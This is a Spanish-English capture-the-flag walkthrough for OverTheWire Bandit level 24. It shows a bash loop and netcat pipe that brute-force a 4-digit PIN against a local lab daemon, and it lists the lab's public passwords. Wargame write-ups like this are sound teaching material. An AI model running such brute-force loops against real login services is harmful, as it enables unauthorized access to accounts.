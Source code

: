 # Level 24
## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

Un demonio está escuchando en el puerto 30002 y le dará la contraseña de bandit25 si se le da la contraseña de bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código PIN excepto revisando todas las 10000 combinaciones, lo que se denomina fuerza bruta.
No es necesario crear nuevas conexiones cada vez.
### Datos de Acceso al nivel
Comandos: [None]
Usuario: bandit24
Contraseña: *VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar* (Nivel 24), *p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d* (Nivel 25)
Servidor: bandit.labs.overthewire.org
Puerto: 2220
### Solución
(Después de haber hecho lo del nivel 24)
```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.
mkdir /tmp/jagger
bandit24@bandit:~$ mkdir /tmp/jagger
bandit24@bandit:~$ cd /tmp/jagger
bandit24@bandit:/tmp/jagger$ nano bruteforce.sh
Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.
[EN NANO]
#!/bin/bash
passwd="VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar"
for i in {8000..9999}
do
        echo $passwd' '$i >> salida.txt
done
[GUARDAR Y SALIR DE NANO]
bandit24@bandit:/tmp/jagger$ chmod 777 bruteforce.sh
bandit24@bandit:/tmp/jagger$ ./bruteforce.sh
bandit24@bandit:/tmp/jagger$ cat salida.txt | nc localhost 30002 >> resultado.txt
bandit24@bandit:/tmp/jagger$ sort resultado.txt | uniq -u
Correct!
Exiting.
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
Timeout. Exiting.

C:\Users\gerar>ssh bandit25@bandit.labs.overthewire.org -p 2220
Enter password: p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```
### Notas Adicionales
En este nivel se usó el scripting, el cuál es una manera de crear scripts y ejecutar las instrucciones de un proceso que queramos ejecutar, la idea de este script es el de hacer "**bruteforce**" (Ataque de fuerza bruta) para adivinar de manera bruta cuál es el password, guiada por una sintaxis simple. 
### Referencias
https://overthewire.org/wargames/bandit/bandit25.html